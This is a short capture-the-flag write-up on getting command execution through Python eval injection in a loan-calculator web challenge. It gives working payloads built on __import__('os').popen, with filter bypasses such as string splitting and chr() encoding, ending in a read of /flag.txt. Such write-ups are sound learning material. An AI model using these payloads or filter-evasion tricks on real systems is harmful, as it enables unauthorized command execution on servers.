





According to the description of this CTF, the website is using an `eval` function for calculating bank loan. First, we make sure the webserver is instead using python. 



Next, we enter `7*7` in the input box, and indeed get 49 as result. 





Now, we try to use standard payload to get a RCE:

`__import__('os').popen('ls').read()`


It seems that the website is using keyword filtering. However, we shall be able to different techniques for bypassing. 

The first trick is split o and s

__import__('o'+'s').popen('id').read()


Nice. We execute the `id` command successfully. Next we want to locate the flag. Since `ls` is also filtered, we used the following

`__import__('o'+'s').popen('l'+'s').read()`



The `ls` command also executes. Next, we want to search the root directory. 

`__import__('o'+'s').popen('l'+'s /').read()`


It turns out that the web server blocks `/` (actually it also blocks `\`). However, we can still bypass by using the `ord` function and ascii number. 

`__import__('o'+'s').popen('l'+'s' + ' ' + f'{chr(47)}').read()`



To read the flag in challenge folder, our final payload is 

```python
__import__('o'+'s').popen('c'+'a' + 't' + ' ' + f'{chr(47)}' + 'flag' + f'{chr(46)}' + 'txt').read() 
```

i.e., `cat /flag.txt`